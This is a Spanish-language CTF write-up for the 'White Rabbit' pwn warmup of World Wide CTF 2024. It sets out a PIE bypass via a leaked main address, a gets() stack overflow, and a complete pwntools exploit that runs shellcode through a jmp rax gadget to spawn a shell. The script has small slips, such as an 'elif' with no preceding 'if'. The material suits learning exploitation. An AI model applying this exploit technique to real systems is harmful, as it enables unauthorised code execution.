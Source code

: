 ```yaml
---
layout: post
title: White Rabbit World Wide CTF 2024
comments: true
categories: [Pwn, Writeups, WorldWideCTF]
---
```


Este es el reto de calentamiento de pwn de la World Wide CTF de 2024. Dado a la cantidad de trabajo que tenía no pude darle mucho tiempo a esta competición, pero he de decir que estuvo muy entretenida y tenía un nivelazo!

![Image]({{ site.baseurl }}/images/posts/wwctflogo.png)

# Overview

En este reto bypasearemos un PIE, introduciremos un *shellcode* en el stack y lo ejecutaremos mediante ROP.

La descripción decía así:

	Just a nice easy warmup for you...

# Reconocimiento

Como nos dan sólo un binario (`64-bits LSB`), comenzamos lanzando *checksec*:

```
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : ENABLED
RELRO     : Partial
```

Vemos que tenemos el **bit NX desactivado**, lo que nos indica que podemos ejecutar código en el stack. Descompilando con *ghidra*:

```c
int main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("\n  (\\_/)");
  puts(&DAT_0010200d);
  printf("  / > %p\n\n",main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

Vemos que nos dan la función de `main`, con lo que podemos saltar el **PIE**. Además la función follow contiene una vulnerabilidad de tipo *Buffer overflow*:

```c
void follow(void) {
  char buf [100];
  
  gets(buf);  //GETS es siempre vulnerable
  return;
}
```

# Explotación

Con esta información, podemos tratar de introducir un *shellcode* en el stack y ejecutarlo con un *gadget* `jmp eax`. Podemos calcular el offset hasta el *RIP* con cyclic y la dirección del gadget con *ropper*:

```bash
gdb-peda$ !pwn cyclic -l faabgaab

120
```

```bash
ropper -f white_rabbit | grep "jmp"

0x00000000000010bf: jmp rax; 
```

Como el *PIE* está activado, debemos calcular la dirección del gadget relativa a `main`, para ello, tomamos la dirección que obtenemos de *gdb* y le restamos la que nos da ropper:

```
0x0000000000001180 - 0x00000000000010bf = 0x00c1
```

A la hora de utilizar el gadget, utilizaremos la dirección de *main* que nos dan menos `0x00c1`:

```python
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    elif args.REMOTE:
        return remote("url", 1337)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Set up pwntools for the correct architecture
exe = './white_rabbit'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'


# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

io.recvuntil(b'> ')

main = io.recvuntil(b'\n') #Get the address of main from leak

JMP_RAX = int(main, 16) - 0xc1 #Calculate the address of the jmp rax gadget

payload = asm(shellcraft.sh())        # front of buffer <- RAX points here
payload = payload.ljust(120, b'A')    # pad until RIP
payload += p64(JMP_RAX)               # jump to the buffer - return value of gets()

io.sendline(payload)
io.interactive()
```

Podemos hacer que *pwntools* tome directamente la dirección del propio gadget de la memoria (aunque es interesante saber cómo obtenerla manualmente):

```python
JMP_RAX = jmp_rax = next(elf.search(asm('jmp rax')))
```

Y tras ejecutar deberíamos obtener una shell. Vaya reto para empezar en caliente!!!